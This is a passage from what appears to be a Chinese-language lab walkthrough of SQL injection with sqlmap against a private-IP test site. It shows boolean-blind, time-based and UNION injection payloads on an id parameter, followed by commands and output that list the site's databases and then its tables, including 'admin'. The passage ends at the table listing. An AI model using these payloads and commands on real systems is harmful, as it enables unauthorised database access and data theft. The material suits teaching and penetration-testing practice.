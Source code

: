 ```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1817=1817

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2184 UNION ALL SELECT NULL,CONCAT(0x716b707071,0x517964767671746351415543654b4b794171664b78754b57434b70774c6b56434b6a46786a4d5a76,0x717a706271)-- BgjA
---
[11:30:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:30:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.3.59'

[*] shutting down at 11:30:43
```

## 第二步：查找数据库

输入：`sqlmap -u '192.168.3.59/article.php?id=1' --dbs'`。

输出：注入发现两个数据库`information_schema`和`website`。`information_schema`主要是数据库、表、列的信息，没有什么用处，`website`是网站的数据。

```
........
[11:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:37:43] [INFO] fetching database names
[11:37:43] [INFO] the SQL query used returns 2 entries
[11:37:43] [INFO] retrieved: information_schema
[11:37:43] [INFO] retrieved: website
available databases [2]:                                                       
[*] information_schema
[*] website
......
```

## 第三步：注入

输入：`sqlmap -u '192.168.3.59/article.php?id=1' -D website --tables'。`

输出：发现有两张表`admin、articles`。
